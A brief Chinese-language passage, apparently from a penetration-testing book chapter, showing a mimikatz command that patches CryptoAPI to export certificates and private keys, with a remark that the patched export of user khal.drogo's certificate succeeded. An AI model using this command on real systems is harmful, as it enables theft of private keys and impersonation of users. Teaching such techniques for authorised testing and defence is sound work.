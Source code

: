 ```
mimikatz.exe "crypto::certificates /export" "crypto::capi" "crypto::certificates /export"  "exit"
```

第一次导出尝试由于**私钥导出**字段的错误而失败，但随后补丁导出成功。以下是命令执行结果：

![图 8.2 – khal.drogo 的证书导出成功](img/B18964_08_02.jpg)
